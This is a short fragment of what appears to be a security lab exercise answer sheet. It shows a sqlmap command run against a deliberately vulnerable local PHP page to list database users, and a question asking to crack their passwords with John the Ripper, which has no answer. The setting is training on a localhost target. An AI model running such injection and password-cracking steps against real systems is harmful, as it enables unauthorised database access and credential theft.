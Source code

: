 ![table](./img/2_table.png)

```sh
py sqlmap.py -u "http://localhost:3128/unsafe_edit_backend.php?NickName=Huy&Email=huy%40gmail.com&Address=1111&PhoneNumber=0829174988&Password=huy" --cookie="PHPSESSID=lq8dlk5c5o88k1gejsr5k04jc9; security=medium" --users
```

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit\
**Answer 3**:

